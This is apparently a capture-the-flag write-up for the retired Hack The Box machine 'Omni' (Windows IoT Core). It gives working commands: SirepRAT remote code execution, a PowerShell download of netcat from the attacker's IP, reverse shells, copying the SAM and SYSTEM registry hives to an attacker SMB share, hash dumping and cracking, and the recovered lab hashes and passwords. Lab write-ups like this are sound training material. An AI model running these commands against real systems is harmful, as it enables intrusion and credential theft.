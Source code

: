 # Omni

This is the write-up for the box Omni that got retired at the 9th January 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.204    omni.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/omni.nmap 10.10.10.204
```

```
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```
nmap -p- 10.10.10.204
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```

## Checking HTTP (Port 8080)

The website on port 8080 needs authentication and forwards to _/authorizationrequired.htm_ when sending invalid credentials:
```
Authorization Required

This server could not verify that you are authorized to access the document requested. Either you supplied the wrong credentials (eg. incorrect password) or your browser doesn't understand how to supply the credentials required.
```

The authentication window and the Nmap scan show the basic realm as **Windows Device Portal (WDP)**.
When researching about this, there is a [documentation from Microsoft](https://docs.microsoft.com/en-us/windows/uwp/debug-test-perf/device-portal), that describes what it is:
```
The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection (local connections are also supported on devices with a web browser).
```

In the table it shows the devices which include **WDP** and the default port 8080 is used in **Windows IoT**.
Lets check the other ports, if there is a way to interact with this operating system.

## Checking Port 29820

When researching about port 29820, the first finding is a [presentation about SirepRAT](https://www.woprsummit.org/slides-archive/SirepRAT_RCEasSYSTEMonWindowsIoTCore-WOPRSummit.pdf) which describes how to abuse **Windows IoT Core**.

The tool [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT) is on GitHub and will be used for remote code execution:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\hostname.exe" --v --return_output
```
```
omni
```

It executed _hostname.exe_ and proofs command execution, so PowerShell can be used to upload files.

Uploading **Netcat for Windows** to the box:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -Uri http://10.10.14.7:8000/nc64.exe -OutFile C:\nc64.exe" --v --return_output
```

Executing _nc64.exe_ to gain a reverse shell:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc64.exe -e powershell 10.10.14.7 9001" --v --return_output
```

After running the command, the listener on my IP and port 9001 starts a reverse shell as _omni$_ which is the device account and thus has system privileges.
```
echo $env:USERNAME

omni$
```

The home directories are not in _C:\Users_ but instead in _C:\Data\Users_.
The user flag is in the directory of _app_ and the root flag is in _administrator_ but both files are encrypted and cannot be read.

These files are encrypted with the _PSCredential_ function and it uses the credential of the users.

## Privilege Escalation

The credentials of the users are in the **SAM** and **SYSTEM** files in _C:\Windows\system32\config_.

Saving the registry keys of the files into a writable directory:
```
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

Starting an SMB server on our local client:
```
impacket-smbserver -smb2support Share $(pwd)
```

Copying the files from the box to our local client:
```
copy C:\SYSTEM \\10.10.14.7\Share\SYSTEM
copy C:\SAM \\10.10.14.7\Share\SAM
```

Dumping secrets out of the files with **impacket-secretsdump**:
```
impacket-secretsdump -system SYSTEM -sam SAM local
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
(...)
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
```

Cracking hashes with **Hashcat**:
```
hashcat -m 1000 --user omni.hashes /usr/share/wordlists/rockyou.txt
```

The hash of the user _app_ gets cracked and the password is:
> mesh5143

These credentials can be used for the web portal on port 8080 and there it is possible to gain a reverse shell with _app_:
```
Processes --> Run command - C:\nc64.exe -e powershell 10.10.14.7 9002
```

![Run command in WDP](omni_web-1.png)

After running the command, the listener on my IP and port 9002 starts a reverse shell as _app_.

### Decrypting Files

With the credentials of _app_, the files _user.txt_ and _iot-admin.xml_ in the directory _C:\Data\Users\app_ can be decrypted.

Getting the contents of _user.txt_:
```
$secure = Import-CliXml -Path user.txt
$secure.GetNetworkCredential().Password
```

Getting the contents of _iot-admin.xml_:
```
$secure = Import-CliXml -Path iot-admin.xml
$secure.GetNetworkCredential().Password
```
```
_1nt3rn37ofTh1nGz
```

This is the password for the _administrator_ user, which can be used to login to the web portal on port 8080 and run commands as demonstrated before:
```
Processes --> Run command --> C:\nc64.exe -e powershell 10.10.14.7 9003
```

After running the command, the listener on my IP and port 9003 starts a reverse shell as _administrator_.

Decrypting _root.txt_ in _C:\Data\Users\administrator_:
```
$secure = Import-CliXml -Path root.txt
$secure.GetNetworkCredential().Password
```

